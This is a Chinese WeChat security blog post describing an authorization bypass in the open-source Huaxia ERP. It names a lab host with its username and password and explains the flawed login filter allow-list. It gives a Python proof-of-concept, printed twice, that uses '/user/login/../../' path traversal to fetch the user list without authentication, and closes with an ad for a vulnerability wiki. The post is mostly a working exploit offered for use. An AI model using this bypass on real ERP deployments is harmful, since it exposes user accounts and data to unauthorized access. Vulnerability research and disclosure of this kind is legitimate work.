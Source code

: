 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/-g7qxNoS-oa_mqh_msmaag)

继续这个测试靶场。。

<table cellspacing="0" cellpadding="0"><tbody><tr><td width="132" valign="top"><p>靶场地址</p></td><td width="421" colspan="2" valign="top"><p>http://47.116.69.14</p></td></tr><tr><td width="132" valign="top"><p>账户密码</p></td><td width="210" valign="top"><p><strong>jsh</strong></p></td><td width="210" valign="top"><p><strong>123456</strong></p></td></tr></tbody></table>

**1、描述**

  

华夏 ERP 基于 SpringBoot 框架和 SaaS 模式，可以算作是国内人气比较高的一款 ERP 项目，但经过源码审计发现其存在多个漏洞，本篇为第二处授权绕过漏洞。

  

  

  

  

  

**2、影响范围**

  

华夏 ERP  

  

  

  

  

  

**3、漏洞复现**

  

从开源项目本地搭建来进行审计，源码下载地址：

百度网盘 https://pan.baidu.com/s/1jlild9uyGdQ7H2yaMx76zw  提取码: 814g  

  

  

  

  

  

漏洞复现：

1、漏洞代码位置，利用 filter 做登录判断

```
com.jsh.erp.filter.LogCostFilter
```

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibAHZf0xlShnFVN9xMZdhQHyiavcXdedib1vGxecoxdo6Pk2jY5kibOXtU4zyA095RMCYX45WNgMYVwbQ/640?wx_fmt=png)

如果 URL 开头匹配到了 allowUrls 中的内容则不跳转登录界面

追踪一下 allowUrls 的值：

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibAHZf0xlShnFVN9xMZdhQHyHh4byXb6DibHEo7bwqC6WNSV1eHuIiahMwb4pn47iaB7gbzrapWI6pdKQ/640?wx_fmt=png)

```
[“/user/login”,”/user/registerUser”]
```

```
python3 华夏ERP授权绕过2.py http://ip:port
```

下面我们需要将 url 开头设置为数组中的内容即可：

就比如 / user/login/  

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibAHZf0xlShnFVN9xMZdhQHy3icskL9Brzhyicw14IhNtKypGbym1k8j889U8rTgWsiaziaXaepb2Y2z0g/640?wx_fmt=png)

或者设置为 / user/registerUser/

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibAHZf0xlShnFVN9xMZdhQHyElwRHr1ZdEsibsVBNmdeaYw8iaYDI68hytnLhNibc72IlF8QoCAnwQBYQ/640?wx_fmt=png)

POC

使用方法：

```
import sys,requests

def main(ip):
    url = "{ip}/user/login/../../user/getUserList?search=%7B%22userName%22%3A%22%22%2C%22loginName%22%3A%22%22%7D¤tPage=1&pageSize=15".format(ip=ip)
    res = requests.get(url,verify=False,timeout=5)
    if res.status_code == 200:
        print("+ {ip} 访问成功\n{data}".format(ip=ip,data=res.text))
main(sys.argv[1])
```

源码：

```
import sys,requests
def main(ip):
    url = "{ip}/user/login/../../user/getUserList?search=%7B%22userName%22%3A%22%22%2C%22loginName%22%3A%22%22%7D¤tPage=1&pageSize=15".format(ip=ip)
    res = requests.get(url,verify=False,timeout=5)
    if res.status_code == 200:
        print("+ {ip} 访问成功\n{data}".format(ip=ip,data=res.text))
main(sys.argv[1])
```

最后再给大家介绍一下漏洞库，地址：wiki.xypbk.com  

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDrnboUobzRQh0afompnvn1GjZWV69BXhbVdDPh2GNcQzoTyXn20iaOhsIGsxPPicJz6u7Rkq5weKmQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDrnboUobzRQh0afompnvn1vUPmy8nUyUcxBicqJEtxo3ib4YzTQQEWd5cotecmuB0pZy4AKgAdhapg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDrnboUobzRQh0afompnvn1SjnVpDzicoVx6nMShk1Ou1jtKYYicsvNHt3DCWZnM5bvTnW56wcFwD9Q/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDrnboUobzRQh0afompnvn1Hxk0rhBSk7Oib2ZiafD0w9T9YBDffv171WjmnvFxlktv5UZiahYwytZ7w/640?wx_fmt=png)

本站暂不开源，因为想控制影响范围，若因某些人乱搞，造成了严重后果，本站将即刻关闭。

漏洞库内容来源于互联网 && 零组文库 &&peiqi 文库 && 自挖漏洞 && 乐于分享的师傅，供大家方便检索，绝无任何利益。  

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。

若有愿意分享自挖漏洞的佬师傅请公众号后台留言，本站将把您供上，并在此署名，天天烧香那种！

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/nMQkaGYuOibDavXvuud5F09Tjl7NMvU8Yzhia63knJ4QJFvO4WBfd6KQazjtuPC7uqNBt5gE06ia7GjOVn2RFOicNA/640?wx_fmt=jpeg)

扫取二维码获取

更多精彩

![](https://mmbiz.qpic.cn/mmbiz_png/TlgiajQKAFPtOYY6tXbF7PrWicaKzENbNF71FLc4vO5nrH2oxBYwErfAHKg2fD520niaCfYbRnPU6teczcpiaH5DKA/640?wx_fmt=png)

Qingy 之安全  

![](https://mmbiz.qpic.cn/mmbiz_png/Y8TRQVNlpCW6icC4vu5Pl5JWXPyWdYvGAyfVstVJJvibaT4gWn3Mc0yqMQtWpmzrxibqciazAr5Yuibwib5wILBINfuQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/3pKe8enqDsSibzOy1GzZBhppv9xkibfYXeOiaiaA8qRV6QNITSsAebXibwSVQnwRib6a2T4M8Xfn3MTwTv1PNnsWKoaw/640?wx_fmt=png)

点个在看你最好看